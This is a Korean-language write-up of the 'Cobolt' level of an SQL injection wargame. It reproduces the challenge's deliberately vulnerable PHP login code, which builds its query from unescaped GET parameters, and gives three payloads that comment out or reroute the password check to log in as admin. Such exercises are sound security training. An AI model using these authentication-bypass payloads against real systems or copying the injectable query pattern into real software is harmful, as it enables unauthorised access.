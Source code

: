# Cobolt Problem

![Cobolt Problem page image](../image/cobolt_web_page.png)

### hint

admin 유저가나오게 참을 만들어야된다.


### los rubiya problem Script
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

### 핵심

```php
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
if($result['id'] == 'admin') solve("cobolt");
elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
```

쿼리를 참으로 만들어도 id 가 admin 아니라면 solve 함수가아니라 Hello... 가 출력이 되므로

admin이 나오도록 참을 만들어서 solve 가 실행되게 해야된다.

<details>
<summary>Payload</summary>
<div markdown="1">

```sql
?id=admin%27%20or%201=2%23%27
> select id from prob_cobolt where id='admin' or 1=2#'' and pw=md5('')

?id=&pw=%27)%20or%20id=(%27admin
> select id from prob_cobolt where id='' and pw=md5('') or id=('admin')

?id=admin%27%23
> select id from prob_cobolt where id='admin'#' and pw=md5('')
```

이처럼 '참' 으로 만들어야되는게 핵심이지만 쿼리에서 출력되는 id 가 admin 이여야되도록 만든것이다.

</div>
</details>